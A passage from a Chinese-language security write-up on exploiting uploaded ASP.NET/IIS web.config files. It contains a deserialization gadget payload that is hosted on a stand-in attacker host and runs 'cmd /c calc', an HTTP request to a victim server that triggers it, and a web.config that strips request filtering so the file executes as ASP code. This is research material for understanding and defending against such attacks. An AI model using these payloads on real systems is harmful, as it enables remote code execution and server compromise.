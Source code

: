 以下 JSON 显示攻击者网站`（http://attacker.com/payload）`上应该接受 POST 请求的 payload 页面：

```plain
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd',
            'Arguments':'/c calc'
        }
    }
}
```

上传`web.config`文件并在远程服务器上设置 payload 页面后，攻击者可以发送以下 HTTP 请求以在服务器上运行其代码和命令：

```plain
POST /testwebconfig/Authentication_JSON_AppService.axd/login HTTP/1.1
Host: victim.com
Content-Length: 72
Content-Type: application/json;charset=UTF-8

{"userName":"foo","password":"bar","createPersistentCookie":false}
```

应该注意的是，`Profile_JSON_AppService.axd`或`Role_JSON_AppService.axd`也可能在这里派上用场，但是需要在`web.config`中启用它们，并且需要调用合适的方法来触发反序列化。

### 2.使用子文件夹或虚拟目录中的 web.config 执行命令

虚拟目录中的`web.config`文件比应用程序文件夹根目录中的`web.config`更受限制。可以滥用以执行`AspNetCoreModule，machineKey，buildProviders和httpHandler`等命令不能在子文件夹中的 web.config 中使用。

在我之前在 2014 年发表的相关博客文章中，我发现了一种方法，当允许在虚拟目录中使用`ISAPI`模块时，将`web.config`文件作为`ASP`文件运行。如下所示：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
```